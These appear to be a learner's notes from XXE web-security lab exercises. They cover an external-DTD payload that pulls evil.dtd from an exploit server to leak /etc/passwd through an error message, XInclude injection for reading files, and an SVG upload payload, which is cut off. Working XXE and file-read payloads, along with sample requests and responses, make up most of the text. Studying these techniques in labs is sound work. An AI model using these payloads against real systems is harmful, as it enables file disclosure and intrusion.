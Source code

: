 ```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ad200850482e0b58031841701250032.exploit-server.net/evil.dtd"> %xxe;%eval;
%exfil;]>
<stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```
DTD to append the file to the error message:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///doesnltexist%file;'>">
%eval;
%exfil;
```

# Exploiting XInclude to retrieve files
Get /etc/passwd
## Observations 
- Not traditional XML in the payload of the check stock function. 
- Tried to induce an error with a single quote and it just shows invalid productId. 
- Sent to targeted selection scan. 
-- Found the XML injection
Request:
```
productId=3&storeId=1]]>><
```
Response:
```
"XML parser exited with error: org.xml.sax.SAXParseException; lineNumber: 4; columnNumber: 18; The character sequence "]]>" must not appear in content unless used to mark the end of a CDATA section."
```
So, we need to develop a payload for this:
- Testing:
```
productId=3<![CDATA[<test></test>]]>&storeId=1
```
Results in ```Invalid Product ID: 3<test></test>``` so it seems to have parsed the CDATA declaration. 
If the parser is Xinclude-aware then it may read a file on the server and return the data to us. Xinclude is useful because there is no traditional <!DOCTYPE> or general parameters or entities needed. 
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

# Exploiting XXE via image file upload
YAY file uploads, love this. 
Get /etc/hostname. 
## Observations
- No real functions other than a comment function in the blog with a form that takes files. 
- Probably an SVG with XML to retrieve files. May need OOB. 
- First try:
```
<?xml version="1.0"?>
<svg xmlns="http://www.w3.org/2000/svg"
     xmlns:xi="http://www.w3.org/2001/XInclude">
  <!-- Linux -->
  <xi:include href="file:///etc/passwd" parse="text"/>
  <!-- Windows example -->
```